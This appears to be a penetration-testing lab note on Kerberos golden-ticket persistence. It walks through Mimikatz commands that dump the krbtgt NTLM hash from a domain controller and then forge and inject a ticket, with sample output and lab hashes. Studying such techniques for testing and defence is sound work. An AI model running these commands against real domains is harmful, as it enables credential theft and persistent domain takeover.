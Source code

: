 At this stage of the engagement, the golden ticket will require us to have access to a **Domain Admin**'s group account or to have **compromised the domain controller** itself in order to work as a persistence method
+ With this kind of access, we can extract the password hash of the _krbtgt_ account with Mimikatz 
+ To simulate this, we'll log in to the domain controller via remote desktop using the _jeffadmin_ account, run Mimikatz from **`C:\Tools`**, and issue the **`lsadump::lsa`** command as displayed below:
+ Usage:
```
lsadump::lsa /patch
```
+ Example
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
...
```

Having obtained the NTLM hash of the _krbtgt_ account, along with the domain SID, we can now forge and inject our golden ticket
+ Creating the golden ticket and injecting it into memory does not require any administrative privileges and can even be performed from a computer that is not joined to the domain
+ We'll take the hash and continue the procedure from a compromised workstation

Back on CLIENT74 as the _jen_ user, before generating the golden ticket, we'll launch mimikatz and delete any existing Kerberos tickets with **kerberos::purge**:
```
kerberos::purge
```

We'll supply the domain SID (which we can gather with **whoami /user**) to the Mimikatz **kerberos::golden** command to create the golden ticket
+ This time, we'll use the **/krbtgt** option instead of **/rc4** to indicate we are supplying the password hash of the _krbtgt_ user account
+ Starting July 2022, we'll need to provide an existing account, so let's set the golden ticket's username to **jen**
```
kerberos::golden /user:<EXISTING_USER> /domain:<DOMAIN> /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_HASH> /ptt
```
+ Example:
```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
User      : jen
Domain    : corp.com (CORP)
```